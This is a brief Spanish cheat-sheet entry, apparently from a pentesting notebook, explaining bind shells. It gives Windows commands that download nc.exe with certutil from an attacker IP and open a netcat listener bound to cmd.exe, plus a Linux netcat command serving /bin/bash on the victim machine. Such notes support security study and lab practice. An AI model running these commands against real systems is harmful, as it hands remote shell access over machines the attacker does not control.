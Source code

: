 Es aquella que se obtiene al servir una shell desde un puerto de la máquina víctima y conectarse a él desde la máquina atacante. Es lo opuesto a una [[Reverse shell]].

# Ejemplos

## Windows

Para descargar la shell:

```
certutil -urlcache -f http://10.10.31.2/nc.exe nc.exe
```

Y la ponemos en escucha:

```pwsh
netcat.exe -lvnp 4343 -e cmd.exe
```

## Linux

### Netcat

```bash
nc -lvnp 4343 -e /bin/bash
```
> En la máquina víctima.